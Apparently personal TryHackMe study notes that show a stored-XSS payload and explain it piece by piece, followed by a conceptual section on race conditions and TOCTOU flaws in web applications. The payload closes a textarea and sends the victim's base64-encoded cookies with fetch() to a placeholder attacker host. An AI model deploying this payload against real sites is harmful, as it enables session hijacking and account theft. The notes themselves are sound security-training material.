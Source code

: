 **For getting cookies:** `btoa(document.cookie);</script>`
`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie));</script>`

Let's break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim's cookies.
- `btoa()` command base64 encodes the victim's cookies.
- `document.cookie` accesses the victim's cookies for the Acme IT Support Website.
- `</script>` closes the JavaScript code block.

# Room 10 
## Race Condition 
A race condition is a situation in computer programs where the timing of events influences the behavior and outcome of the program. It typically happens when a variable gets accessed and modified by multiple threads. Due to a lack of proper lock mechanisms and synchronization between the different threads, an attacker might abuse the system and apply a discount multiple times or make money transactions beyond their balance.

#### Multi-Threading 
Process state:
![[process-phase.png]]

Time-of-Check to Time-of-Use (TOCTOU) vulnerability:
This kind of vulnerability happens when, say, we have two threads working on the same process, for example a withdrawal from an account:
- First thread withdraws $50 from a balance of $100
- The second thread (starts before the first thread updates the account) withdraws $90 from a balance of $100 

So now we have a conflict.

Some of the causes of race conditions:
- **Parallel Execution**: Web servers may execute multiple requests in parallel to handle concurrent user interactions. If these requests access and modify shared resources or application states without proper synchronization, it can lead to race conditions and unexpected behavior.
- **Database Operations**: Concurrent database operations, such as read-modify-write sequences, can introduce race conditions. For example, two users attempting to update the same record simultaneously may result in inconsistent data or conflicts. The solution lies in enforcing proper locking mechanisms and transaction isolation.
- **Third-Party Libraries and Services**: Nowadays, web applications often integrate with third-party libraries, APIs, and other services. If these external components are not designed to handle concurrent access properly, race conditions may occur when multiple requests or operations interact with them simultaneously.
